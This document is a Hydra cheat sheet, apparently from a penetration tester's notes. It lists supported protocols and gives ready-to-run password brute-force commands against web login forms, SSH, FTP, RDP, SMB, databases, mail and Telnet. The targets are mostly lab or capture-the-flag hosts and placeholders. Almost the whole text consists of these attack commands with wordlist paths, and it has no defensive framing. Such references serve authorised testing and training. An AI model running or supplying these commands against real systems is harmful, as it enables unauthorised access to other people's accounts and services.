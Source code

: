 hydra

Available Hydra Protocols

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Hydra Examples
 
HTTP-POST-FORM

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

HTTPS-POST-FORM

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb  http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

HTTP-GET

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local http-get /certsrv/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

HTTPS-GET

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local https-get /certsrv/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

FTP

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -l user -P passlist.txt ftp://10.10.134.169
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

SSH

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -l <username> -P <full path to pass> 10.10.134.169 -t 4 ssh
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

IMAP

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> imap -V

hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f <IP> imap -V
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

MYSQL

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -L usernames.txt -P pass.txt <IP> mysql
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

POP

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V

hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

POSTGRESQL

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> postgres
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

RDP

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

SMB

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

SMTP

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V

hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Telnet

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -l root -P passwords.txt [-t 32] <IP> telnet
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
